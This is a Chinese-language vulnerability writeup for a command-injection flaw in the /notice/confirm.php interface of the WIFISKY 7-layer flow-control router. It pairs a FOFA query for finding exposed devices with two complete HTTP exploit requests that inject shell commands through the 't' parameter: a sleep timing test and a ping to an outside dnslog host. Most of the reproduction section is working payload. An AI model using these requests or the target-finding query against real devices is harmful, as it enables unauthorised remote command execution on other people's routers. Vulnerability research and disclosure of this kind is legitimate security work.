 # WIFISKY 7层流控路由器confirm存在命令执行漏洞

# 一、漏洞简介
WIFISKY-7层流控路由器是深圳市领空技术有限公司（简称“领空技术"）的一款产品，深圳市领空技术有限公司是扎根深圳辐射的网络通讯设备供应商，致力于网络通讯设备产品的研究与开发。WIFISKY 7层流控路由器 confirm 接口存在一个命令执行漏洞，使得攻击者可以通过构造特定的请求远程执行恶意代码。此漏洞可能导致攻击者获取系统权限、执行任意命令，严重威胁系统的机密性和完整性。

# 二、影响版本
+ WIFISKY-7层流控路由器

# 三、资产测绘
+ fofa`title="WIFISKY 7层流控路由器"`
+ 特征

![1715173367617-aaada69e-bcaf-4f05-8166-b5ff817cdcfe.png](./img/FCIn4YzdQmapH-Qa/1715173367617-aaada69e-bcaf-4f05-8166-b5ff817cdcfe-024206.png)

# 四、漏洞复现
```http
GET /notice/confirm.php?t=;sleep%203 HTTP/1.1
Host: 
Cookie: SESSID=e2cc8cfb14aa1d77ffcfc93204a1d57b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1715173433508-2e7146ea-18f4-45ff-8d01-238623ada4e0.png](./img/FCIn4YzdQmapH-Qa/1715173433508-2e7146ea-18f4-45ff-8d01-238623ada4e0-359859.png)

```http
GET /notice/confirm.php?t=;ping%20ofo3df.dnslog.cn HTTP/1.1
Host: 
Cookie: SESSID=e2cc8cfb14aa1d77ffcfc93204a1d57b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1715173494704-e184b918-38a2-45ce-a6ec-4a26f9712427.png](./img/FCIn4YzdQmapH-Qa/1715173494704-e184b918-38a2-45ce-a6ec-4a26f9712427-455592.png)



> 更新: 2024-05-14 11:23:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rgxgp78mynikfbld>